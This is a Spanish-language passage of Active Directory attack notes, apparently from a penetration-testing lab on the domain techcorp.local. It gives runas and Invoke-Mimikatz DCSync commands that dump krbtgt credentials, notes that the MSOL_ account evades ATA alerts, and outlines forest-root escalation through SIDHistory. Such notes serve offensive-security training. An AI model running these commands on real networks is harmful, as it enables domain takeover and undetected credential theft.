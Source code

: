     `runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd`

- Y luego puede ejecutar el ataque DCSync:

    `Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'`

    `Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'`

- Tenga en cuenta que debido a que AD Connect sincroniza los hash cada dos minutos, en un entorno empresarial, la cuenta MSOL_ se excluirá de herramientas como ATA. ¡Esto nos permitirá ejecutar DCSync sin alertas!

**Cross Domain Attacks – Forest Root**

- Los dominios del mismo bosque tienen una confianza bidireccional implícita con otros dominios. Existe una clave de confianza entre los dominios principal y secundario.
- Se puede abusar de SIDHistory de dos formas para aumentar los privilegios dentro de un bosque:
    - hash krbtgt del secundario
    - Trust tickets
- Toda la escalada de privilegios a techcorp.local que hemos visto hasta ahora necesita una configuración incorrecta. Estos están "funcionando según lo previsto".

![/assets/images/images_AD/Cross%20Trust%20Attacks/Untitled%202.png](/assets/images/images_AD/Cross%20Trust%20Attacks/Untitled%202.png)
